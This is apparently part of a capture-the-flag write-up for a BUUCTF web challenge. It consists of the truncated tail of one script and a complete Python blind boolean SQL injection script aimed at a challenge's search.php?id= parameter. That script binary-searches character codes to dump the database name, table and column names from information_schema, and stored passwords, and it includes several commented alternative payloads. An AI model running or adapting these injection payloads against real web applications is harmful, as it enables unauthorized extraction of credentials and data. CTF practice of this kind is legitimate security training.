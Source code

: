 ```plain
head = mid + 1
else:
tail = mid
if head != 32:
result += chr(head)
else:
break
print(result)
Plain Text
```



```plain
import requests
import time
# url是随时更新的，具体的以做题时候的为准
url = 'http://8d08c7b6-e6f3-4df0-b71c-a2a397891bab.node3.buuoj.cn/search.php?id='
i = 0
flag = ''
while True:
i += 1
# 从可打印字符开始
begin = 32
end = 126
tmp = (begin + end) // 2
while begin < end:
print(begin, tmp, end)
time.sleep(0.1)
# 爆数据库
# payload = "''or(ascii(substr(database(),%d,1))>%d)" % (i, tmp)
# 爆表
# payload = "''or(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(information_schema.tables)where(TABLE_SCHEMA=database())),%d,1))>%d)" % (i, tmp)
# 爆字段
# payload = "''or(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='F1naI1y')),%d,1))>%d)" % (i, tmp)
# 爆flag 要跑很久
# payload = "''or(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)" % (i, tmp)
# 爆flag 很快
payload = "''or(ascii(substr((select(password)from(F1naI1y)where(username='flag')),%d,1))>%d)" % (i, tmp)
# 错误示例
# payload = "''or(ascii(substr((select(GROUP_CONCAT(fl4gawsl))from(Flaaaaag)),%d,1))>%d)" % (i, tmp)
r = requests.get(url+payload)
if 'Click' in r.text:
begin = tmp + 1
tmp = (begin + end) // 2
else:
end = tmp
tmp = (begin + end) // 2
flag += chr(tmp)
print(flag)
if begin == 32:
break
Plain Text
```

